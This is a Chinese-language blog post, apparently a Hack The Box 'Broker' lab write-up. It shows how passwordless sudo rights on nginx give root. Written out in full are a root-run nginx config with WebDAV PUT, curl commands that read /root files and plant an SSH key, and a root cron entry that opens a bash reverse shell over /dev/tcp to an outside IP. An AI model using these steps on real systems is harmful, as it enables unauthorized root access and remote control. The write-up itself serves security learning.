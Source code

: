 ```yaml
---
title: sudo nginx提权学习
categories:
  - Linux
tags:
  - Linux
  - PE
---
```

## 0x00 前言
在[Broker](https://app.hackthebox.com/machines/Broker)这台机器上学的一种提权方式，重点是nginx配置文件的学习，以及如何通过上传文件到任意位置得到root权限。

---
## 0x01 枚举
使用`sudo -l`可以得到如下信息
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
能使用sudo通过无密码的方式以root用户的权限运行nginx命令

运行`nginx -h`得到帮助信息
```bash
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```
可以看到-c标志能指定nginx服务的配置文件，所以我们可以通过更改配置文件的方式来利用它。

---
## 0x02 通过PUT方法上传公钥
既然可以以root用户运行nginx命令，那么我们可以写一个以root用户运行的nginx服务的配置文件，根目录就为`/`

之后使用`dav_methods PUT;`定义put方法，就可以以root用户的身份上传文件。

在/dev/shm目录下写一个nginx配置文件，名为ix1.conf

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1111;
		root /;
		autoindex on;

		dav_methods PUT;
	}	

}
```

1. **`user root;`：**
    - 设置 Nginx 进程的运行用户为 **`root`**。这是指定 Nginx 进程以特定用户身份运行的一种方式。
2. **`worker_processes 4;`：**
    - 指定启动的 Nginx worker 进程的数量为 4。Nginx 使用多进程模型，每个 worker 进程可以处理并发请求。
3. **`pid /run/nginx2.pid;`：**
    - 指定存储主进程 ID 的文件路径。Nginx 主进程的 ID 将被写入此文件，以便后续管理和监控。
4. **`events { ... }`：**
    - 定义与事件相关的配置块，如最大连接数等。
    - **`worker_connections 768;`：** 指定每个 worker 进程的最大连接数。
5. **`http { ... }`：**
    - 定义与 HTTP 相关的配置块。
    - **`server { ... }`：** 定义一个简单的虚拟主机。
        - **`listen 1111;`：** 指定监听的端口号为 1111。
        - **`root /;`：** 指定服务器的根目录为根目录（/），这表示 Nginx 将会从文件系统的根目录提供文件。
        - **`autoindex on;`：** 打开自动目录索引功能，当访问一个目录时，如果没有默认的索引文件（如 index.html），则显示该目录下的文件列表。
        - **`dav_methods PUT;`：** 启用 WebDAV 的 **`PUT`** 方法，允许客户端上传文件到服务器。

这个配置文件的目的是创建一个简单的 Nginx 服务器，监听端口 1337，允许通过 WebDAV 的 **`PUT`** 方法上传文件，同时启用了自动目录索引。请注意，实际生产环境中的配置可能需要更多的安全性和性能优化。

然后使用`sudo nginx -c`指定配置文件

```bash
sudo nginx -c /dev/shm/ix1.conf
```

运行`ss -lntp`可以看到1111端口开放，说明以上配置成功。

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                   
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=924,fd=6),("nginx",pid=923,fd=6),("nginx",pid=922,fd=6))                             
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*    users:(("systemd-resolve",pid=519,fd=14))                                                                
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=947,fd=3))                                                                            
LISTEN 0      511          0.0.0.0:1111       0.0.0.0:*    users:(("nginx",pid=3859,fd=6),("nginx",pid=3858,fd=6),("nginx",pid=3857,fd=6))                          
LISTEN 0      511          0.0.0.0:12345      0.0.0.0:*    users:(("nginx",pid=1883,fd=6),("nginx",pid=1882,fd=6),("nginx",pid=1881,fd=6),("nginx",pid=1880,fd=6),("nginx",pid=1879,fd=6),("nginx",pid=1878,fd=6))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=966,fd=145))                                                                          
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=966,fd=148))                                                                          
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=966,fd=143))                                                                          
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=947,fd=4))                                                                            
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=966,fd=146))                                                                          
LISTEN 0      50                 *:34783            *:*    users:(("java",pid=966,fd=26))                                                                           
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=966,fd=154))                                                                          
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=966,fd=144))
```

然后可以使用`curl`查看主机上的任意文件。

```bash
activemq@broker:/dev/shm$ curl localhost:1111/root/root.txt
xxxxxxxxxxxxxxxxxxxx
```

也可以通过`PUT`方法上传文件到任意位置。

在本机生成一个公私钥对

```bash
ssh-keygen
```

然后通过curl上传（三种方式都行）

```bash
curl -X PUT localhost:1111/root/.ssh/authorized_keys -d "$(cat root.pub)"
curl -T root.pub localhost:1111/root/.ssh/authorized_keys
curl --upload-file root.pub localhost:1111/root/.ssh/authorized_keys
```

然后通过`ssh -i`指定私钥连接。

---
## 0x03 写计划任务反弹shell
可以通过在`/var/spool/cron/crontab`下写一个root用户的计划任务反弹shell

新建一个文件内容如下

```bash
* * * * * bash -c "bash -i >& /dev/tcp/10.10.16.28/9999 0>&1"
```

意思是每一分钟执行一次。

不理解可以看`/etc/crontab`文件

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

然后上传到`/var/spool/cron/crontabs/root`

<aside> ⚠️ 在 Unix/Linux 系统中，**`/var/spool/cron/crontabs/`** 目录通常包含了每个用户的个人 cron 作业文件。这个目录下的文件名称通常以用户名为基础，对应每个用户的 crontab 文件。这些文件包含了用户通过 **`crontab -e`** 命令编辑的定时任务。

</aside>

```bash
curl -T cron localhost:1111/var/spool/cron/crontabs/root
```

等待一分钟
![](/assets/img/2023-11-18-sudo nginx提权学习/1.png)